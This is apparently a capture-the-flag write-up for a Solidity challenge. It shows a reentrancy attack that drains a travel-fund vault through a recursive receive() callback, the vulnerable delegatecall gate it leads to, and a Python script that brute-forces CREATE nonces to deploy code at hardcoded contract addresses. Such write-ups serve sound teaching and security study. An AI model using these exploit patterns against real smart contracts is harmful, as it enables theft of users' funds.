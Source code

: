 We can do a reentrancy attack here. I used the following to withdraw all the
funds:


```sol
  function withdraw() external {
    msg.sender.call{value: address(this).balance}("");
  }

  receive() external payable {
    if (address(this).balance <= 170 ether) {
      travelFundvault.withdraw();
    }
  }
```

Once we have sufficient funds, we can call the `startUnlockingGate` function.

```sol
travelFundVaultAddr = tfvAddr;
treasureLocations["hindhede"] = hindhedeAddr;
treasureLocations["coneyIsland"] = coneyIslandAddr;
treasureLocations["pulauSemakau"] = pulauSemakauAddr;
isLocationOpen["coneyIsland"] = true;

function startUnlockingGate(string calldata _destination) public {
        require(treasureLocations[_destination] != address(0));
        require(msg.sender.balance >= 170 ether);

        (bool success, bytes memory retValue) =
treasureLocations[_destination].delegatecall(abi.encodeWithSignature("unlockgate()"));
        require(success, "Denied entry!");
        require(abi.decode(retValue, (bool)), "Cannot unlock gate!");
    }
```

And here, there isn't actually any function called "unlockgate()" in the
contract (the contracts for treasureLocations were not released). Eventually, we
need to deploy our own contract to implement this function.

But how do we deploy our own contract to the hardcoded addresses? When
generating an address for a contract deployment using the `CREATE` opcode (not
`CREATE2`), the EVM takes into account the deployer's address and a nonce that
increments every time a contract is deployed. This address is thus deterministic
and can even be controlled partially by the attacker. We can write a script to
bruteforce a possible nonce value that will give us one of the contract's
addresses:

```python
import rlp
from sha3 import keccak_256

sender = bytes.fromhex("0x7cd3cB56F3DaE8825eF0ebA1916eE98D4bcb80E8"[2:])

desired = [
    "0xb3ccA2077c824C19bd689616b8399230057a5a1D", # coneyIsland
    "0xfba9b795E98591Be941BD41C57D2072Ada028B23", # pulauSemakau
    "0xb9d877eFF9430734d2C4653ed389FEB6DF5F3A36" # hindhede
]

desired = [d[2:].lower() for d in desired]

def gen_contract_addr(sender, nonce):
    return keccak_256(rlp.encode([sender, nonce])).hexdigest()[-40:]

for nonce in range(2, 2 ** 256):
    if gen_contract_addr(sender, nonce) in desired:
        print(nonce, gen_contract_addr(sender, nonce))
```